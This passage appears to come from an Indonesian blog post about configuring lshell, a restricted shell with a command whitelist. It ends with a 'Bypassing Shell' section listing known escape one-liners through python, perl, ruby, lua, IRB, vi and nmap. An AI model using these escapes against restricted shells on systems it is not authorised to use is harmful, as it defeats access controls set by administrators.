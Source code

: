 ------skip------

note : dibagian allowed kita bisa menambahkan command yang (bisa) digunakan. jadi hanya perintah yang didaftarkan saja yang bisa digunakan, yang tidak ditambahkan tidak dapat digunakan.

![alt text](https://image.prntscr.com/image/pswPHDzkR-GkIUtZQT2Bcw.png)

atau bisa lihat dsini [ASCIINEMA](https://asciinema.org/a/ZqbniPbF6ym33uQ7PbnCIIxY8)

yarp sebenarnya masih banyak fungsi lshell yang lain, silahkan di explore lebih jauh lagi....
btw kita bisa memanfaatkan lshell untuk default login shell di ssh pada beberapa kondisi seperti untuk soal-soal remote easy CTF dan untuk nge-troll user-user nakal.. asal jangan di troll balik saja... tinggal pakai perintah chsh saja untuk user yang di inginkan...


BONUS :

Bypassing Shell :

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

-----------------------------

(From within IRB)

exec "/bin/sh"

-----------------------------
(From within vi)

:!bash

-----------------------------
(From within vi)

:set shell=/bin/bash:shell

-----------------------------
(From within nmap)

!sh
{% endhighlight %}

semoga aja settingan lshell atau other shell bisa di spawn.. :p


Referensi :

* https://packages.debian.org/wheezy/lshell
* https://tecadmin.net/how-to-limit-user-a...ted-shell/
* https://www.aldeid.com/wiki/Lshell
* https://netsec.ws/?p=337
